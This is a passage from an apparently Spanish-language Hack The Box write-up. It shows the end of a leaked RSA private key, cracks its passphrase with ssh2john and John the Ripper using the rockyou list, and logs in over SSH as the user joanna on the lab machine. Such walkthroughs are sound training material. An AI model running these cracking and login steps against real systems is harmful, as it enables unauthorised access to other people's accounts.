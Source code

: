```bash
  29   │ K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
  30   │ -----END RSA PRIVATE KEY-----
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ chmod 600 id_rsa
❯ ssh2john.py id_rsa > hash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
Warning: Only 2 candidates left, minimum 8 needed for performance.
1g 0:00:00:02 DONE (2022-01-02 22:55) 0.4347g/s 6235Kp/s 6235Kc/s 6235KC/sa6_123..*7¡Vamos!
Session completed
```

Tenemos la contraseña del archivo `id_rsa`, no del usuario. Ahora nos conectamos al servicio SSH como el usuario **joanna**.

```bash
❯ ssh -i id_rsa joanna@10.10.10.171
The authenticity of host '10.10.10.171 (10.10.10.171)' can't be established.
ECDSA key fingerprint is SHA256:loIRDdkV6Zb9r8OMF3jSDMW3MnV5lHgn4wIRq+vmBJY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.171' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jan  3 05:01:33 UTC 2022

  System load:  0.0               Processes:             182
  Usage of /:   31.0% of 7.81GB   Users logged in:       0
  Memory usage: 14%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

39 packages can be updated.
11 updates are security updates.


Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ whoami
joanna
joanna@openadmin:~$
```
